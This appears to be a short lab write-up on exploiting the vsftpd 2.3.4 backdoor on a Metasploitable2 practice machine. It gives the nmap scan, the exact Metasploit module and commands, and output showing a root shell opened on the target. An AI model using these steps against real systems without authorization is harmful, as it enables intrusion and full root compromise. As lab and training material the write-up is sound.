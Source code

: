 #  Exploiting VSFTPD 2.3.4 Backdoor (Metasploitable2)

## 🔍 Target Info

- **Target IP:** 192.168.56.101
- **Service:** FTP (vsftpd 2.3.4)
- **Tool Used:** Nmap, Metasploit
- **Exploit Module:** `exploit/unix/ftp/vsftpd_234_backdoor`

---

## 🔎 Nmap Service Scan

```bash
nmap -sS -sV -T4 -Pn 192.168.56.101

Output
21/tcp   open  ftp         vsftpd 2.3.4

Exploitation with Metasploit
Metasploit Module Used:exploit/unix/ftp/vsftpd_234_backdoor

Steps:
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
run

Results:
[+] 192.168.56.101:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.56.106:44225 -> 192.168.56.101:6200)

Summary
Successfully exploited the vsftpd 2.3.4 backdoor and gained root shell access on the target
